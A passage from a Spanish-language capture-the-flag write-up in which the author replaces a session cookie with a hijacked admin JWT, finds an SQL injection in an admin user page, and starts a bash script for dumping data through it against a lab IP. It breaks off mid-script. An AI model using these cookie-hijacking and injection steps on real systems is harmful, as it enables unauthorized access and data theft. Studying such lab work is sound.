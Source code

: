 Volvamos a la web y cambiemos nuestra cookie de session por la que acabamos de obtener.

Al momento de cambiar nuestra cookie y recarga la web nos carga otro directoria el cual antes no podiamos ver.
![](/assets/img/market/pan.png)

En este directorio estan todos los usuarios de la web, si le damos click en cualquiera de estos usuarios nos lleva a una url muy curiosa.
![](/assets/img/market/sql.png)

Este campo es vulnerable a Sql Injection, para dumpear todos las datos lo voy hacer atraves de este script de bash.
```bash
#!/bin/bash

#Colours
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
yellowColour="\e[0;33m\033[1m"
blueColour="\e[0;34m\033[1m"
greenColour="\e[0;32m\033[1m"

function ctrl_c(){

  echo -e "\n${redColour}[!] Saliendo\n${endColour}"
  exit 0
}

# Ctrl + C
trap ctrl_c INT

declare -r url='http://10.10.113.110/admin'

function helpPanel(){
  echo -e "\n${yellowColour}[+] Uso:${endColour}"
  echo -e "\n\t${blueColour}i)${greenColour} Modo interactivo${endColour}"
  echo -e "\n\t${blueColour}h)${greenColour} Mostrar este panel de ayuda${endColour}"
}
function sqlInteractive(){

  cookie="Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2Nzg5MTA1NDZ9._bn0r86GO904MK9PZ6Y6Guu3dcQJUBNsBhDr_LChNUQ"
  
  while [ "$query" != 'exit' ];do

      echo -ne "${yellowColour}[~] ${endColour}" && read -r query
```